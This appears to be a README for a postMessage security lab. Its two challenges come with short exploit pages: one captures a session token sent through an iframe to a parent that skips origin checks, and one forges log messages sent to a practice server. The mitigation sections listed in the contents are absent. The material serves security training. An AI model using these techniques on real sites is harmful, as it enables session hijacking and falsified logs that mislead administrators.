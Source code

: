 # Web Application Security Challenges: postMessage Exploits

This repository demonstrates two security challenges related to **postMessage**, a JavaScript method for cross-origin communication. These challenges explore vulnerabilities that can be exploited in web applications, specifically focusing on stealing session tokens and injecting fake log messages.

## Table of Contents

- [Challenge 1: Steal the Session Token](#challenge-1-steal-the-session-token)
    - [Challenge Overview](#challenge-overview)
    - [Exploiting postMessage to Steal the Session Token](#exploiting-postmessage-to-steal-the-session-token)
    - [Security Implications](#security-implications)
    - [Mitigation Strategies](#mitigation-strategies)
  
- [Challenge 2: Fake the Log](#challenge-2-fake-the-log)
    - [Challenge Overview](#challenge-overview-1)
    - [Exploiting postMessage to Inject Fake Logs](#exploiting-postmessage-to-inject-fake-logs)
    - [Security Implications](#security-implications-1)
    - [Mitigation Strategies](#mitigation-strategies-1)

---

## Challenge 1: Steal the Session Token

### Challenge Overview

In this challenge, a parent page loads a login form inside an **iframe**. When the user logs in through the iframe, the child window sends the session token back to the parent window using the `postMessage` method.

**Objective**: The goal is to exploit the lack of proper origin validation to intercept the session token and steal it during the login process.

The vulnerability arises because the parent page doesn't validate the origin of the message, allowing an attacker to listen for the `postMessage` event and capture sensitive data such as the session token.

### Exploiting postMessage to Steal the Session Token

1. **Malicious Script Injection**: The attacker injects a script in the parent page to listen for messages.
2. **Intercepting the Session Token**: When the child window sends the session token using `postMessage`, the malicious script captures it and can use it to hijack the user's session.

#### Example of Exploiting the Vulnerability:

```javascript
<!DOCTYPE html>
<html>
<head>
    <title>Token Listener</title>
</head>
<body>
    <h1>Token Listener</h1>
    <div id="token-display"></div>
    <iframe id="test" src="https://html5server.digi.ninja/l_child.php" style="width:100%; height:300px; border:1px solid #ddd;"></iframe>
    <script>
        window.addEventListener('message', function(event) {
			console.log(event);
            console.log('Message data:', event.data);
            document.getElementById('token-display').innerText = "Token: " + event.data;
        });
    </script>
</body>
</html>


// The child iframe sends a postMessage containing the session token
window.parent.postMessage(sessionToken, '*');
```

## Challenge 2: Fake the Log
### Challenge Overview

This challenge demonstrates the use of postMessage to send log messages to a central log server. The task is to exploit this mechanism and inject fake log messages into the server, potentially misleading the log data and bypassing detection.

**Objective**: Find a way to inject fake log messages using postMessage, which can trick administrators or security systems into thinking that legitimate actions are happening.

### Exploiting postMessage to Inject Fake Logs
Identifying the Log System: The attacker needs to identify how the parent or child window is communicating with the logging server.

Injecting Fake Log Messages: By using postMessage, the attacker can send forged log messages that are forwarded to the server, creating false logs such as fake errors or user actions.

#### Example of Exploiting the Vulnerability:

```js
<!DOCTYPE html>
<html>
<head>
    <title>Token Listener</title>
</head>
<body>
    <h1>Token Listener</h1>
    <div id="token-display"></div>
    
    <iframe id="test" src="https://html5server.digi.ninja/s_child.html?origin=https://html5.digi.ninja"
            style="width:100%; height:300px; border:1px solid #ddd;"></iframe>

    <script>
        const frame = document.querySelector("#test");

        frame.addEventListener("load", () => {
            frame.contentWindow.postMessage("test", "https://html5server.digi.ninja");
        });
		//change the /etc/hosts 127.0.0.1 html5server.digi.ninja
    </script>
</body>
</html>
```

